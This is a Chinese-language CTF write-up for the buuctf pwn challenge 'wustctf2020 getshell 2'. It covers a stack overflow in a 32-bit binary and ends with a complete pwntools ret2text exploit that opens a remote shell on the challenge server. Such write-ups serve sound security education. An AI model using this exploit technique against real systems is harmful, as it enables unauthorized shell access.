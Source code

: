 ```yaml
---
author: 
  name: Zephyr
title: wustctf2020 getshell 2
date: 2022-4-7 08:45:20
permalink: /pages/2e1547494524d1ac
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# wustctf2020 getshell 2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/wustctf2020_getshell_2/wustctf2020_getshell_2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  vulnerable();
  return 0;
}
```

vulnerable函数如下：

```c
ssize_t vulnerable()
{
  char buf; // [esp+0h] [ebp-18h]

  return read(0, &buf, 0x24u);
}
```

shell函数如下：

```c
int shell()
{
  return system("/bbbbbbbbin_what_the_f?ck__--??/sh");
}
```

Gadget:

```shell
ROPgadget --binary wustctf2020_getshell_2 --string "/sh\x00"
Strings information
============================================================
0x08048670 : sh
```



## 思路分析

1. 目前信息：

   - `vulnerable`函数存在溢出点可溢出2个栈帧
   - `shell`函数提供了`system`与`sh`
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - `ret2text`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/wustctf2020_getshell_2/wustctf2020_getshell_2'
io = remote('node4.buuoj.cn', 29247)
# io = process(pwnfile)
padding = 0x18+4
system_addr = 0x8048529
sh_addr = 0x8048670
# 只能溢出2个栈帧
# 使用plt中的system需要添加一个栈帧为返回地址长度，长度超出了
# 所以这里使用现有的程序中的call system会自动压入返回地址 少去一个栈帧
payload = flat(['a'*padding, system_addr, sh_addr])
io.recv()
io.sendline(payload)
io.interactive()
```

